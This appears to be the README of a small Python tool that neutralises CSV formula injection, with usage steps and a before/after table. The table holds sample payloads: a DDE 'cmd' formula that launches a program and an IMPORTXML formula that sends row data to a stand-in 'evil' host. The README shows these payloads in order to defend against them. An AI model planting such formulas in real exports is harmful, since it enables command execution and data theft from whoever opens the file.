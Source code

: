 # Sanitize CSV Script README
## Operating environment python2.7
### Usage method
```
git clone https://github.com/zhizhi10/sanitize_csv.git
cd sanitize_csv
chmod +x sanitize_csv.py
./sanitize_csv.py your_csv_file.csv
```
The generated filename is sanitized_your_csv_file.csv

### Comparison Before and After Cleaning

| Data Before Cleaning                                                                                                         | Data After Cleaning                                                                                                                   |
|------------------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------|
| UserId,BillToDate,ProjectName,Description,DurationMinutes                                                                    | "UserId","BillToDate","ProjectName","Description","DurationMinutes"                                                                   |
| "1","2017-07-25","Test Project","Flipped the jibbet","60"                                                                    | "1","2017-07-25","Test Project","Flipped the jibbet","60"                                                                             |
| 2,2017-07-25,Important Client,"Bop, dop, and giglip", 240                                                                    | "2","2017-07-25","Important Client","Bop, dop, and giglip"," 240"                                                                     |
| 2,2017-07-25,Important Client,"=2+5", 240                                                                                    | "2","2017-07-25","Important Client","'=2+5"," 240"                                                                                    |
| 2,2017-07-25,Important Client,"=2+5+cmd\| ' /C calc'!A0", 240                                                                | "2","2017-07-25","Important Client","'=2+5+\|' /C calc'!A0"," 240"                                                                    |
| 2,2017-07-25,Important Client,"=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")",240 | "2","2017-07-25","Important Client","'=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")","240" |
| =1+2";=1+2                                                                                                                   | "'=1+2"";=1+2"                                                                                                                        |

### warning

Due to the program’s inability to determine whether commas outside of quotation marks are separators, the cleaning result of `=1+2'" ;,=1+2` is `'=1+2'"" ;","'=1+2"`, not `'=1+2'"" ;,=1+2”`.
